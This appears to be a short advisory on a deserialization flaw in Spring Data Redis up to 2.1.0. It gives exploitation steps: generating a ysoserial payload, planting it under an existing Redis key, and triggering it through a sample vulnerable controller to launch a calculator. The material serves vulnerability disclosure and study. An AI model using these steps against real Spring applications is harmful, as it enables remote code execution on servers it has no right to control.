


Spring Data Redis, part of the larger Spring Data family, provides easy configuration and access to Redis from Spring applications.

Spring Data Redis first serializes data before writing data to Redis. By default, Java native serialization is used for serialization, more see [here](https://github.com/spring-projects/spring-data-redis/blob/master/src/main/asciidoc/reference/redis.adoc#serializers). When Spring Data Redis retrieves data from Redis, the stored bytecode is deserialized, and the target class is not checked or filtered during deserialization, which can lead to remote code execution.

# Exploitation

1. Generate payload with [ysoserial](https://github.com/frohoff/ysoserial)
2. Write the generated payload in Redis:

    ```java
    // Try to choose a key that already exists in Redis so that code execution can start when Spring retrieves data
    redis.set("\xac\xed\x00\x05t\x00\brebeyond", payload);
    ```

3. Trigger or wait for Spring to retrieve data, example of vulnerable code:

    ```java
    @Controller
    public class HelloController {
   
        protected RedisTemplate<Serializable, Serializable> redisTemplate;

        @GetMapping("/")
        public String index() {
            Object result = redisTemplate.opsForValue().get("rebeyond");
            return "index";
        }
    }
    ```

4. Server starts calculator successfully:

    
    
    The call stack is as follows:
    
    

# References

- [Spring Data Redis <=2.1.0 Deserialization Vulnerability](https://xz.aliyun.com/t/2339)